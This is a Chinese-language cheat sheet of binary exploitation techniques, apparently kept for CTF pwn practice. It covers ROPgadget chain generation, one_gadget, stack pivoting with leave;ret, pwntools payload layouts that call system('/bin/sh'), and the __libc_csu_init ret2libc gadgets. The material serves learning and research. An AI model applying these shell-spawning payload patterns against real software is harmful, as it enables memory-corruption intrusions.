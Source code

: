 ## brop

http://www.scs.stanford.edu/brop/

## srop

https://www.freebuf.com/articles/network/87447.html
https://blog.csdn.net/qq_29343201/article/details/72627439

## ROPgadget

1.  ROPgadget 得到代码片断
2.  cd80c3 就是 int0x80;ret,s 使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
3.  动态链接找不到 int 0x80,需要构造 rop
4.  `ROPgadget --binary {binary_name} --ropchain`可以直接生成 ROP chain，不过要转换一下

```py
rop = []
# i = 1
for line in open("ropc"):
    # print line,
    if "pack" in line and '+=' in line:
        print line
        # print i
        # print str(line).split(", ")[1].split(")")[0]
        rop.append(str(line).split(", ")[1].split(")")[0])
    if 'pack' not in line and '+=' in line:
        # print i
        # print line
        rop.append(str(line).split("+= ")[1][1:-2])
    # i += 1
i=0
while(i<len(rop)):
    if rop[i]=='/bin':
        rop[i]='0x6e69622f'
    if rop[i]=='sh':
        rop[i]='0x68732f2f'
    i+=1
print rop
```

## one_gadget

https://github.com/david942j/one_gadget

直接从 glibc 里 getshell 的函数。

### 寄存器赋值

构造栈结构

```
  *(pop eax ;ret)
  3
```

将 eax 赋值为 3

### 栈转移

寻找 leave;ret;指令，然后更改 ebp 的值即可

```py
payload += p32(base_stage)
payload += p32(leave_ret)
#leave= mov esp,ebp,pop ebp
```

例子：将 esp 设置到 bss 段上

```py
payload = flat(
  [
  'A' * offset, # 覆盖到ret
  read_plt, # 读100个字节到base_stage
  ppp_ret, # pop esi ; pop edi ; pop ebp ; ret 清空参数
  0,
  base_stage,
  100,
  pop_ebp_ret, # 把base_stage pop到ebp中
  base_stage,
  leave_ret  #mov esp,ebp;pop ebp
  ]
)
cmd = "/bin/sh"
payload1= flat(
  [
    'A' *4 # 接payload1，ebp='AAAA'
    write_plt
    #...
  ]
)
```

## 通用技术

常用的栈布局如下

```py
# 32位
flat(
    [
    read_addr,
    system_addr,
    0, #read 函数一个参数 fd/system返回地址
    binsh_addr #read第二个参数/system第一个参数
    ]
)

flat([
        gets,
        system,
        buf,
        buf
        ])
# 64位
flat(
    [
        pop_edi,
        0, //read第一个参数 fd
        pop_rsi,
        binsh_addr, #read第二个参数 sh字符串地址
        pop_rdx,
        20,      #read第三个参数 长度
        read_addr,
        pop_rdi,
        binsh_addr,# system第一个参数
        system_addr,
    ]
)
```

## ret2libc

64 下通用 gadget,`__libc_csu_init`,一共两端代码，可以设置三个寄存器传参的值

```asm
;第一段代码gad1
  pop     rbx  ;必须为0
  pop     rbp  ;必须为1
  pop     r12  ;你call函数的地址(应该是got上的?)
  pop     r13  ;arg3
  pop     r14  ;arg2
  pop     r15  ;arg1
  retn         ;gad2
```

```asm
;第二段代码gad2
mov     rdx, r13
mov     rsi, r14
mov     edi, r15d
call    qword ptr [r12+rbx*8] call!!!
add     rbx, 1
cmp     rbx, rbp
jnz     short loc_400880
add     rsp, 8
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15 ;这个地方可以构造错位gadgets,恰好可以构造为pop rdi,ret
retn     ;构造一些垫板(7*8=56byte)，因为后面后面还有很多pop+rbp+ret
```
